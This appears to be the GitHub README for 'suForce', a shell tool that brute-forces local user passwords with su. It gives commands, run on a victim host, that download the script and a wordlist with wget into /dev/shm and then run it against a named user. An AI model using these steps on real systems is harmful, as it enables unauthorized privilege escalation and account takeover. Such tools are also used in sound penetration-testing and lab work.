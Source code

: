 # suForce

**su Brute Force - Password - User**

![](/screenshot.png)

- <kbd>Download/kbd>

```cmd
user@vitim:~$ cd /dev/shm
user@vitim:~$ wget -q "https://raw.githubusercontent.com/d4t4s3c/suForce/main/suForce.sh"
user@vitim:~$ wget -q "https://raw.githubusercontent.com/d4t4s3c/suForce/main/techyou.txt"
```

- <kbd>Use</kbd>

```cmd
user@vitim:~$ chmod +x suForce.sh
user@vitim:~$ ./suForce.sh -u <USER> -w <WORDLIST>
```

---
